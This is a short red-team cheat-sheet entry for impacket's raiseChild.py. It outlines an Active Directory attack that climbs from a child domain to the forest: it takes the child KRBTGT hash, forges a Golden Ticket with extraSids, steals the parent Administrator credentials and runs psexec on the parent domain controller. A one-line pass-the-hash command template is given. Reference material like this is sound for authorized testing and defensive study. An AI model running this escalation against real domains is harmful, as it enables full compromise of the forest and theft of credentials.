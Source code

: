 # raiseChild (imp)

% impacket-kerberos, windows, kerberos, 88

## shi history child-domain to forest privilege escalation (pth) 
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
golden + extraSids
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain
- authenticates to the parent domain's Domain Controller via Psexec (-target-exec ip)
```
raiseChild.py -debug -hashes :<nt_hash> <domain>/administrator
```
